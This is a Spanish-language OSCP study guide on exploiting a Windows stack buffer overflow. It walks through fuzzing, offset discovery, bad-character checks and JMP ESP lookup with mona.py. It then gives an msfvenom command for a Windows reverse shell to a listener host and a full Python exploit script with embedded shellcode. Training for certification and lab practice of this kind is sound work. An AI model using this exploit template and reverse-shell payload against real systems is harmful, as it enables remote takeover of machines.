

# Metodología OSCP BOF <!-- omit from toc -->

## Índice <!-- omit from toc -->

- [Objetivo](#objetivo)
- [Configuración de ambiente de práctica](#configuración-de-ambiente-de-práctica)
  - [Firewall](#firewall)
    - [Traza ICMP](#traza-icmp)
  - [Deshabilitado de DEP](#deshabilitado-de-dep)
  - [Instalación de herramientas (Mona)](#instalación-de-herramientas-mona)
  - [Generación de workspace para `mona.py` (opcional)](#generación-de-workspace-para-monapy-opcional)
- [Fuzzing](#fuzzing)
  - [Plantilla de fuzzer](#plantilla-de-fuzzer)
- [Identificar Bad Chars](#identificar-bad-chars)
  - [Manual](#manual)
    - [Colección plana](#colección-plana)
    - [Colección en arreglo](#colección-en-arreglo)
  - [Automático](#automático)
- [Búsqueda de dirección](#búsqueda-de-dirección)
  - [Búsqueda de apuntador en dll](#búsqueda-de-apuntador-en-dll)
- [Generación de shellcode](#generación-de-shellcode)
- [Generación de exploit](#generación-de-exploit)
  - [Ejemplo de exploit final](#ejemplo-de-exploit-final)


## Objetivo

Como parte de la práctica para el examen me di a la tarea de realizar esta guía para futuras consultas y aclaración de dudas, esperando que sirva de ayuda para cualquiera que se este preparando para la certificación. Adicional, para tener un compendio más práctico realice una síntesis de los comandos utilizados disponibles en esta [Cheat Sheet](../../cheat_sheets/pwning/bof-oscp.md).

## Configuración de ambiente de práctica

1. Deshabilitar firewall y/o habilitar reglas para comunicación a través de red.
2. Deshabilitar protección DEP de Windows.
3. Instalación de herramientas (binario, immunity debugger, `mona.py`).
4. Generación de workspace para `mona.py`.

### Firewall

#### Traza ICMP

En la sección de configuración avanzada habilitar reglas **tanto de entrada como de salida** de ICMP v4 y v6 para permitir comunicación entre la máquina que se ocupará para debuggear el binario y la máquina de donde se lanzará el exploit.


### Deshabilitado de DEP

En un command prompt como administrador ejecutar: `bcdedit.exe /set {current} nx AlwaysOff` para deshabilitar la *prevención de ejecución de datos (DEP)*. Después de ejecutarlo y reiniciar el sistema se puede validar que se deshabilitó correctamente entrando a `Panel de Control > Sistema y seguridad > Sistema > Configuración avanzada del sistema > Opciones avanzadas > Configuración (de rendimiento) > Prevención de ejecución de datos` este deberá salir sombreado de gris.


1. Configuración avanzada del sistema.
2. Configuración de rendimiento.
3. Pestaña de prevención de ejecución de datos.
4. Sombreado gris de correcto deshabilitado.

### Instalación de herramientas (Mona)

Para añadir el script de `mona.py` a inmmunity debugger, es necesario descargar el script del [repositorio](https://github.com/corelan/mona) y meterlo en la ruta `C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands`.


### Generación de workspace para `mona.py` (opcional)

Para facilitar el uso de `mona.py`, se puede generar un entorno de trabajo (a secas es una carpeta) que contendría lo que `mona.py` genere a partir de los comandos que se utilicen (payloads, patrones, badchars, etc). Ejecutando `!mona config -set workingfolder C:\Users\SrRequiem\Desktop\%p` se indicaría el lugar y a partir del primer comando de `mona.py` que genere archivos, se podrá ver reflejado en el sistema de archivos.

## Fuzzing

En esta sección se realiza la búsqueda del punto de quiebre del binario. Identificando el número de caracteres que causen un fallo de segmentación.

### Plantilla de fuzzer

```python
#from pwn import *
import socket, sys, time

if len(sys.argv) < 2:
   print "\n[!] Uso: python " + sys.argv[0] + "<ip-address> " + "<remote-port>\n"
   sys.exit(0)
# Variables globales
ip_address = sys.argv[1]
rport = int(sys.argv[2])

if __name__ == '__main__':
   contador = 100
   #p1 = log.progress("Data") Log de datos en pwntools
   while True:
      #p1.status(f"Enviando {contador} bytes.") Log de datos en pwntools
      print "Enviando %s bytes." % contador
      buffer = 'A' * contador
      try:
         s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
         s.connect((ip_address, rport))

         data = s.recv(1024)
         #s.send("USER srrequiem\r\n")
         #data = s.recv(1024)
         s.send("%s\r\n" % buffer)
         data = s.recv(1024)
         contador += 100
         #En algunas ocasiones no suele romperse la conexion lo que evita entrar
         #al codigo de la excepcion por lo que se puede considerar meter un sleep
         #para visualizar en que valor de la iteracion se pausa la ejecucion del binario
         time.sleep(1)
      except Exception as ex:
         print "\n[!] Ha habido un error de conexion\n"
         print ex
         sys.exit(1)
```

Por medio del script se puede buscar el cambio del `EIP` de manera automática.


**Generacion de patrón**

`msf-pattern_create -l <longitud de bytes>`

`!mona pattern_create <longitud de bytes>`

Después de provocar el fallo con el patrón, la dirección `EIP` se sustituiría con un valor del segmento de nuestro patrón. El valor que contenga `EIP` ahora lo identificaremos para saber el offset específico.


**Identificación offset**

`msf-pattern_create -l <EIP>`

`!mona pattern_offset <EIP>`


1. Offset.
2. EIP.

*Nota: Siempre corroborar con un payload propio modificando después del offset un valor que se identifique facilmente. Ejemplo: 1052 'A' y 4 'B' en este caso el `EIP` valdría `42424242`*

## Identificar Bad Chars

### Manual

Si bien es bueno saber el proceso que se realiza, es una tarea que consume mucho tiempo y que existe una gran posibilidad de cometer errores al realizarlo ya que es muy fácil perder algún byte de vista muy fácil.

El proceso se centra en enviar el payload con los badchars y directamente seguir los caracteres ASCII obtenidos del `ESP` y buscar cuales son los que no se visualizan correctamente, identificandolos así uno a uno. Se puede generar la colección de bytes con `mona.py` con el comando `!mona bytearray` dentro de Immunity Debugger para tener la colección y poder incorporarla al payload.

#### Colección plana

`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`

#### Colección en arreglo

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

Después de enviar el payload con los badchars y lograr la pausa del programa podemos seguir el contenido del `ESP` dándo click derecho en el registro y seleccionando la opción `Follow in Dump`, de la sección ubicada en la esquina inferior izquierda se nos desplegará el contenido del registro para poder identificar los badchars manualmente.


Se anexan ejemplos de cómo se verían los badchars en el dump de hexadecimal (sección inferior izquierda de Immunity Debugger).


### Automático

El proceso se puede optimizar usando `mona.py` de manera iterativa, con los siguientes comandos `mona.py` nos devolverá los badchars identificados.

1. `!mona bytearray`: Generará archivos con arreglo de badchars.
2. `!mona compare -f <ubicacion de byte array .bin> -a <dirección de ESP>`: Comparará los badchars contenidos respecto al payload ubicado en el `ESP` (recordando que payload = filler + eip + badchars).
3. `!mona bytearray -cpb '\x00'`: Generará archivos con arreglo de badchars exceptuando los indicados.
4. Repetir proceso hasta encontrar todos los badchars.

## Búsqueda de dirección

Aquí se realiza la búsqueda de la instrucción `JMP ESP` (valores hexadecimales `\xff\xe4`) en las dlls del binario, siempre tratando de identificar aquellas que no cuenten con protecciones (todas la banderas dadas por `mona.py` en `False`).

*Nota: se puede hacer uso de `msf-nasm_shell` para ver el valor de los `OP codes` (en este caso `jmp ESP`) en caso que se requiera.*


**Comando de mona.py**

`!mona modules`

**Ejemplo**


### Búsqueda de apuntador en dll

Aquí se realiza una búsqueda de los apuntadores contenidos en la dll identificada con el valor de la instrucción `\xff\xe4`.

**Comando de mona.py**

`!mona find -s "\xff\xe4" -m <nombre de dll>`

Se desplegará una lista de direcciones de memoria que se pudieran utilizar, sin antes considerar 2 cosas. La descripción de la tabla contenerá direcciones con permisos de lectura y ejecución (`PAGE_EXECUTE_READ`); y de escritura solamente (`PAGE_READ_ONLY`), **hay que tomar en cuenta sólo aquellas que cuenten con ejecución** (`PAGE_EXECUTE_READ`). Y también desplegará las protecciones con las que cuenta la dll, tomar de nuevo en cuenta aquellas que tengan todo deshabilitado (`False`).



1. Comando.
2. Direcciones útiles para usar en EIP (buscar aquellas que en el valor de la dirección no contenga ningún badchar).
3. Permisos.
4. Protecciones.

## Generación de shellcode

Aquí se generará el shellcode a utilizar después de la sustitución del valor que se asigne a la `EIP`.

**Comando de ejemplo**

`msfvenom -a x86 -p windows/shell_reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=<puerto> -b '\x00' EXITFUNC=thread -i 3 -f python > scode.txt`

Tener en consideración:
- Sistema operativo.
- Arquitectura.
- Payload.
- Formato (python, c, exe, etc).
- Variables de escucha y/o comando a ejecutar.
- Encoding (extra: `-i 3` para número de iteraciones para encodear).
- BadChars.
- Función de salida (para evitar que el proceso termine usar `seh` o `thread`).

***Si se da el caso que los badchars sean bastantes tal que la generación del shellcode no se realice satisfactoriamente, considerar quitar el encoder `x86/shikata_ga_nai` para que automáticamente se utilicé el encoder que cumpla con los requisitos (colección de badchars a evitar).***

## Generación de exploit

### Ejemplo de exploit final

```python
from struct import pack
import socket, sys

if len(sys.argv) < 2:
    print "\n [!] Uso: python " + sys.argv[0] + "<ip-address>" + "<remote-port> \n"
    sys.exit(0)

ip_address = sys.argv[1]
rport = int(sys.argv[2])
shellcode =  b""
shellcode += b"\xb8\x36\xda\x75\x0f\xda\xd5\xd9\x74\x24\xf4\x5b\x2b"
shellcode += b"\xc9\xb1\x5f\x83\xc3\x04\x31\x43\x10\x03\x43\x10\xd4"
shellcode += b"\x2f\xce\x68\xaf\x10\x8c\xac\x01\x49\x9b\x76\x69\x30"
shellcode += b"\x55\xbe\x20\x9d\xa4\x1a\x57\x9d\x2d\x66\x54\xfb\xa0"
shellcode += b"\x75\xc8\xf6\x32\x68\x08\x59\x9b\x32\x1d\xb8\x35\x8a"
shellcode += b"\x2e\x1c\xec\x8c\x49\xea\xa6\xae\xc5\xfb\xef\x11\xbd"
shellcode += b"\xa9\x1f\x9b\xf3\x51\xc8\x4a\x27\x35\xa2\xd1\x60\x03"
shellcode += b"\x55\x72\xf5\xcc\x0b\xd2\x2a\xda\x41\x4d\x5f\x4f\xb4"
shellcode += b"\x2f\xbb\xc6\x88\x45\x5f\x3e\x11\x08\x86\x09\x5d\xe7"
shellcode += b"\xf8\x11\x49\x5c\x12\xdc\x8e\x66\xa0\x1e\x1c\x10\x0a"
shellcode += b"\xf8\xa7\xac\x6b\x8d\xd4\x2a\xaa\xe6\x5e\x9d\xbe\x04"
shellcode += b"\x42\x52\xe0\x71\x86\xc5\xa6\xa2\xff\xdf\xcb\x75\x28"
shellcode += b"\x2f\x5b\x05\x57\x39\x45\xd2\x7e\x05\xd6\x91\xfd\x46"
shellcode += b"\x2c\x31\x66\xea\xbe\x3c\xc8\x10\x96\xf6\xcc\x31\xbc"
shellcode += b"\x56\x43\x24\x1f\x86\xed\xf2\x59\xa2\x38\x9c\x4f\xa1"
shellcode += b"\xc6\x58\x71\xb7\x81\x9d\xe3\x25\xb7\xc7\xf4\x5c\xa3"
shellcode += b"\x01\xd4\x5e\xf2\x1d\x92\x57\x08\x65\xd9\x62\xdf\xb4"
shellcode += b"\xdf\xaa\xb8\x6a\x61\x82\x87\xfa\x27\x0c\xe9\x49\x46"
shellcode += b"\xea\x50\x51\xb6\x6b\xc9\xbc\xe4\x95\xff\xf8\x36\x94"
shellcode += b"\x3b\xbd\x24\xd9\x9c\xb5\x1e\x77\xcb\x31\x84\x2a\xe3"
shellcode += b"\xca\xac\xd7\x8c\x12\xed\xa0\x53\xfa\xbc\x94\xf3\x9b"
shellcode += b"\xe5\x8a\xac\xf3\x48\x1a\x39\x2e\x63\x5a\x68\xe9\x85"
shellcode += b"\x93\xde\x3a\x22\x77\x2a\xac\xa1\xfa\x96\x7f\x9f\x95"
shellcode += b"\x6f\xa3\xe4\x13\x41\x9a\xe8\xf6\x97\x6b\x2d\x31\x68"
shellcode += b"\x9c\xb1\x2f\xab\xa3\xf5\x56\xe9\xf5\xa3\x21\xe9\x9c"
shellcode += b"\x19\xaf\x10\x57\xfb\x80\x0e\x73\x48\x84\xb1\xb0\xb0"
shellcode += b"\x83\x67\x88\xb5\x1d\x0e\x73\xeb\xa1\xd1\xdc\xa2\xe9"
shellcode += b"\x76\xcc\xd0\x27\x6b\xed\x5d\xfc\x02\xcb\x8f\xff\xc3"
shellcode += b"\xb2\x8f\xf3\xee\x96\x9a\xec\xb1\x73\x55\x47\x82\x70"
shellcode += b"\x10\x32\x53\xbb\xfa\x83\x38\x3b\xb0\xea\xd1\xe4\x6e"
shellcode += b"\x2f\x7d\x23\xc5\xd9\x5d\xfb\x48\x06\x3d\x4f\x33\xfe"
shellcode += b"\x03\x9c"

if __name__ == "__main__":
    #buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode
    buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x90" * 16 + shellcode
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.send("%s\r\n" % buffer)
    except Exception as ex:
        print "[!] Ha habido un error de conexion"
        print ex
        sys.exit(1)
```

**Consideraciones**

Si bien se pueden utilizar algunos "trucos" para caer en la dirección donde se encuentra el shellcode como lo son los `NOPs (\x90)` se puede ocupar un desplazamiento de pila para restar posiciones, y jugar un poco con los valores. Dentro de `msf-nasm_shell` se puede invocar la instrucción `sub esp, <valor en hexadecimal>`. Ejemplo:


En este caso se obtendría el valor `83EC10` como código de operación para el desplazamiento de 10 unidades. quedando la línea de construcción del payload como: `buffer = "A" * 1052 + pack("<L", 0x68a98a7b) + "\x83\xEC\x10" + shellcode` en lugar de los `NOPs`.